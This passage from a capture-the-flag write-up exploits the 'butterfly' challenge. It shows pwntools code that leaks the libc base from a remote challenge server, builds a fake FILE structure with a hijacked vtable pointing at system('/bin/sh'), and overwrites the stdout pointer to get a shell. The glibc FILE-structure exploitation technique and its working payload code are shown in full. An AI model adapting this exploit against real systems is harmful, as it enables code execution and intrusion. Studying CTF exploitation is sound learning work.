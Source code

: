 And unlike the `ctf-wiki` method, the exploit code provided by the site *actually worked*<sup>6</sup> on `butterfly`'s libc!

We finally have an exploit method that we can *try* to copy, and *maybe* get to work.

## Implementation blues
Before we dig into the madness of `FILE*`, let's start from what we know.

We'll want to jump to `system` (or something for a shell) in libc, so our first step in the exploit is to leak libc. If you'll recall from two-or-three sections ago, the libc addressed can be leaked if we just write a full `0x50` bytes in the first input:
```python
from pwnscripts import *
context.binary = 'distribute/challenge_bin/butterfly'
context.libc_database = 'libc-database'
context.libc = 'distribute/libc/libc.so.6'
LIBC_OFF=0x50
# The leaked string in gdb showed "__vdso_getcpu", so we'll just grep for that.
vdso_magic = next(context.libc.search(b"__vdso_getcpu"))

p = remote('pwn.darkarmy.xyz', 32770)
p.sendafter(': ', 'a'*LIBC_OFF)
context.libc.address = extract_first_bytes(p.recvline()[LIBC_OFF:],6)-vdso_magic
log.info(hex(context.libc.address))
```
This works out well enough — the address has enough trailing zeros to *look* like a libc base, anyway:
```python
[x] Opening connection to pwn.darkarmy.xyz on port 32770
[x] Opening connection to pwn.darkarmy.xyz on port 32770: Trying 34.77.202.24
[+] Opening connection to pwn.darkarmy.xyz on port 32770: Done
[*] 0x7ff2069f2000
```
After that, we need to copy whatever black magic we found from our online searching<sup>7</sup>. The [blog](https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/) starts off by locating `system` and `/bin/sh`, so we'll just repeat that:
```python
rip = context.libc.symbols['system']
rdi = context.libc.symbols['str_bin_sh']
assert rdi % 2 == 0	# Necessary for exploit
```
Then, we need a fake vtable address that points to somewhere inside `__libc_IO_vtables`. 
```python
io_str_overflow_ptr_addr = context.libc.symbols['_IO_file_jumps'] + 0xd8
# This next line is broken --- we'll come back to this later.
fake_vtable_addr = io_str_overflow_ptr_addr - 2*8
```
After that, we'll want to create a full rendition of the fake `FILE*` structure to send to `read(0xe8)`. The blog defines a really long function to do it, but — as one might expect — there's a `pwntools` helper for that by now:
```python
_lock = context.libc.address + 0x3ecf00	# Magic number: aligned-pointer to an r/w buffer containing the value b'\0'*8
fp = FileStructure(_lock)	# This is `bin.symbols['fake_file'] + 0x80` on the blog
fp._IO_buf_end = fp._IO_write_ptr = (rdi-100)//2
fp._IO_write_base = 0
fp.vtable = fake_vtable_addr
payload = bytes(fp)+pack(rip)
```
With the payload settled, we just have to write it to the `stdout` pointer, and hope everything works:
```python
p.sendlineafter(': ', '-6')	# 0x202050-0x202020
p.sendafter(': ', payload)
```